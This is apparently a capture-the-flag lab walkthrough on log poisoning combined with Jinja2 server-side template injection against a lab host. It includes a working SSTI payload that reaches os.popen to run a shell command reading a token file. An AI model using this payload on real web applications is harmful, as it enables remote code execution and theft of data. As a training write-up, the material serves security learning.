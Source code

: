 ```yaml
---
date: 2025-03-15
categories: [CTF, IML]
title: "IML - Log Poisoning"
tags: ['log poisoning']

description: "Log Poisoning - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Log Poisoning

This is log poisoning and Jinja SSTI

**Reset if you get Internal Server Error**

Register new user

Go to search term and search for "user=admin"
While on that search result page - change the URL to  `http://10.102.122.21/raw/log.txt`

You should be able to view the raw log file now

Go back to search and use the payload:
{% raw %}
```text
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("cat /tmp/token.txt").read()}}{% endif %}{% endfor %}
```
{% endraw %}

Now search for user=admin again and go to  `http://10.102.122.21/raw/log.txt`

- And we get the token:

![image1](../resources/fb9f93ba8d6645828fcb4124db85d764.png)

<https://jayaye15.medium.com/jinja2-server-side-template-injection-ssti-9e209a6bbdf6>